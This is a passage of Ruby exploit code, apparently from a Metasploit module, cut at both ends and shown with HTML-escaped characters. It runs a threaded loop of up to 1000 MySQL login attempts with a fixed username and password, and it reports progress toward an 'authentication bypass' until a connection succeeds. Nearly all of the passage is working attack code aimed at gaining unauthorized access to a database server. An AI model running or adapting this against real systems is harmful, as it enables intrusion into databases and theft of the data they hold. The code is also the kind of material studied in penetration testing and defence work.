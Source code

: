 ```ruby
end

#
# Threaded login checker
#
max_threads = 16
cur_threads = []

# Try up to 1000 times just to be sure
queue = [*(1 .. 1000)]

while(queue.length &gt; 0)
while(cur_threads.length &lt; max_threads)

# We can stop if we get a valid login
break if results.length &gt; 0

# keep track of how many attempts we've made
item = queue.shift

# We can stop if we reach 1000 tries
break if not item

# Status indicator
print_status &quot;#{rhost}:#{rport} Authentication bypass is #{item/10}% complete&quot; if (item % 100) == 0

t = Thread.new(item) do |count|
begin
# Create our socket and make the connection
s = connect(false)
x = ::RbMysql.connect({
:host =&gt; rhost,
:port =&gt; rport,
:user =&gt; username,
:password =&gt; password,
:read_timeout =&gt; 300,
:write_timeout =&gt; 300,
:socket =&gt; s,
:db =&gt; nil
})
print_status &quot;#{rhost}:#{rport} Successfully bypassed authentication after #{count} attempts&quot;
results &lt;&lt; x
rescue RbMysql::AccessDeniedError
rescue Exception =&gt; e
print_status &quot;#{rhost}:#{rport} Thread #{count}] caught an unhandled exception: #{e}&quot;
end
end

cur_threads &lt;&lt; t

end

# We can stop if we get a valid login
break if results.length &gt; 0

# Add to a list of dead threads if we're finished
cur_threads.each_index do |ti|
t = cur_threads[ti]
if not t.alive?
cur_threads[ti] = nil
end
```